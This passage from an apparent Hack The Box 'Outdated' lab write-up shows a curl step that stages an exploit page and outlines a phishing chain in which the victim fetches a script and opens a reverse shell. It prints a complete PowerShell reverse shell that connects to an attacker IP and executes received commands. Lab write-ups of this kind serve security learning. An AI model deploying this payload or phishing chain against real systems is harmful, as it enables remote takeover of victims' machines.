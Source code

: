 ![image.png](/assets/Images/HTB_Outdated/image%207.png)

Save it to www folder !

```bash
curl http://localhost:80/exploit.html -o www/index.html
```

Lets make a rev.ps1 so the phishing will go like this 

Send mail → a request back from the user → takes our rev.ps1 → Revese shell

so why it is important is so if the defender blocks that rev.ps1 we will know that 

but if we try to get it from 1 go there must be chances 

```bash
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.109',2004);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![image.png](/assets/Images/HTB_Outdated/image%208.png)
